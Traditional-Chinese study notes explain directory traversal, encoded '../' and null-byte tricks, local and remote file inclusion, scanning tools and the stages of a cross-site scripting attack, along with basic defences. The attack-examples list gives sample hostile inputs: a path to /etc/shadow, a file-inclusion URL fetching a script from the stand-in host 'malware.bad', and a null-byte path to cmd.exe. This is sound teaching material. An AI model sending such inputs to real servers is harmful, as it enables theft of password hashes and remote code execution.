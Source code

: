 - **../（雙點符號）**：在目錄遍歷攻擊中用來向上導航目錄結構。
  - 每次使用 `../` 會使目錄層級上升一級
  - 在 Linux/Unix 系統中使用 `/`（正斜線）
  - 在 Windows 系統中使用 `\`（反斜線）

- **%2E%2E%2F**：`../` 的 URL 編碼形式，用於繞過輸入驗證。
  - 攻擊者常用編碼字符來避開安全過濾機制

- **Null Byte**（空字節）：`%00` 是空字符的 URL 編碼形式。
  - 用於繞過服務器端輸入驗證機制
  - 可用來終止字符串，特別是在 C 和 C++ 等語言中
  - 在目錄遍歷攻擊中，`%00` 後的內容會被作業系統忽略

- **File Inclusion**（文件包含）：利用網頁應用程式漏洞來執行或讀取伺服器上的文件。
  - **Remote File Inclusion (RFI)**（遠端文件包含）：執行來自外部網站的腳本
  - **Local File Inclusion (LFI)**（本地文件包含）：執行已存在於伺服器上的文件

- **防範目錄遍歷攻擊的方法**：
  - 適當配置服務器權限，使網頁用戶無法讀取網站根目錄以外的內容
  - 實施輸入驗證和淨化，過濾掉 `../` 等有害字符
  - 防範編碼字符和空字節注入

- **攻擊案例**：
  - 使用 `../../../etc/shadow` 來讀取 Linux 系統密碼哈希文件
  - 利用 `/login.php?user=http://malware.bad/malicious.php` 進行遠端文件包含
  - 使用 `/login.php?user=../../Windows/system32/cmd.exe%00` 執行 Windows 命令提示字元

- **Null Byte Injection**（空字節注入）：主動利用技術，通過添加 URL 編碼的空字節字符（`%00`）來繞過安全檢查過濾器

- **UNC (Universal Naming Convention)**（通用命名慣例）：指定網絡資源位置的標準格式，常用於 Windows 環境，但也被其他作業系統支援 

## 相關工具

- **Gobuster**（Gobuster）：一款以 go 實做的目錄遍歷工具，用於探測目錄結構和文件包含漏洞
- **DirBuster**（DirBuster）：一款以 java 實做的目錄遍歷工具，用於探測目錄結構和文件包含漏洞
- **WP Scan**（WP Scan）：WordPress專用的目錄遍歷工具，用於探測WordPress網站中的目錄結構和文件包含漏洞

# 跨站腳本攻擊

- **Cross-Site Scripting（跨站腳本攻擊）**：簡稱XSS，是一種將惡意腳本注入到受信任網站中，設計用來攻擊瀏覽該網站的客戶端用戶的攻擊手法。
    - 允許攻擊者繞過瀏覽器安全模型或信任區域
    - 目標是讓用戶執行惡意腳本，繞過正常安全機制
    - 依賴於網站未進行適當的輸入驗證

## XSS攻擊的四個基本步驟

1. 攻擊者識別受信任網站中的輸入驗證漏洞
2. 攻擊者構造URL以執行代碼注入，並想辦法讓用戶點擊
    - 可能通過釣魚郵件、論壇貼文等方式傳播
3. 受信任網站返回包含注入惡意代碼的頁面
    - 用戶看到的內容來自受信任網站，因此不會懷疑
4. 惡意代碼在客戶端瀏覽器中執行
    - 代碼以受信任網站的權限級別運行
    - 瀏覽器相信代碼來自受信任的來源
